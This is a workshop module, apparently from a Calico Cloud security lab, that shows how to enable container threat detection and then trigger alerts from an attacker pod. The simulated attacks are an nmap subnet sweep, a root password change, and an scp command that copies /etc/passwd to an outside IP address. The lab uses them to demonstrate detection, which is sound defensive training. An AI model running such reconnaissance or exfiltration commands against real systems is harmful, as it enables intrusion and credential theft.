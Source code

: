 # Module 6 - Runtime Container Thread Defence

Calico Cloud provides a threat detection engine that analyzes observed file and process activity to detect known malicious and suspicious activity.

Our threat detection engine also monitors activity within the containers running in your clusters to detect suspicious behaviour and generate corresponding alerts. The threat detection engine monitors the following types of suspicious activity within containers:

- Access to sensitive system files and directories
- Defence evasion
- Discovery
- Execution
- Persistence
- Privilege escalation

1. Let's start by enabling the container threat detection feature.
   For this, go to the `Threat Defense` option in the left-hand menu of Calico Cloud and select `Container Threat Detection`.

2. If it is not enabled, you will see a page like this:

   ![enable](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/54014c62-cbef-4718-93fa-75390febb88a)

   Click on the Enable Container Threat Detection button, and you will see the following page:

   ![running](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/42906ad6-ced1-40a8-b817-4a4b5c740d08)

   Perfect! Now any suspicious activities will generate an alert. Let's try some.

   In other to see the results faster, execute the following on the cluster:

   ```bash
   kubectl -n tigera-runtime-security annotate daemonset runtime-reporter unsupported.operator.tigera.io/ignore="true"
   kubectl -n tigera-runtime-security get daemonset.apps/runtime-reporter -o yaml | sed 's/15m/1m/g' | kubectl apply -f -
   ```

3. Execute the following commands from the attacker pod (if you did quit from its shell, it got deleted. Create it again if it's the case.).

   ```bash
   apk update
   apk add nmap
   nmap -sn $(hostname -i)/24
   ```
   
   Wait a minute and look in the Calico Cloud UI in the `Activity` > `Alerts`.

   Optionally, you can also try the following;
   
   ```bash
   passwd root
   scp -o ConnectTimeout=3 /etc/passwd goomba@198.13.47.158:/tmp/
   ```
   Wait another minute and look in the Calico Cloud UI in the `Activity` > `Alerts` again.

--- 

[:arrow_right: Module 7 - Quarantine Infected Workloads and KSPM](/modules/module-7-quarantine-kspm.md)  <br>

[:arrow_left: Module 5 - Configuring IDS protection and Workload-Centric WAF](/modules/module-5-ids-waf.md)  
[:leftwards_arrow_with_hook: Back to Main](/README.md)  
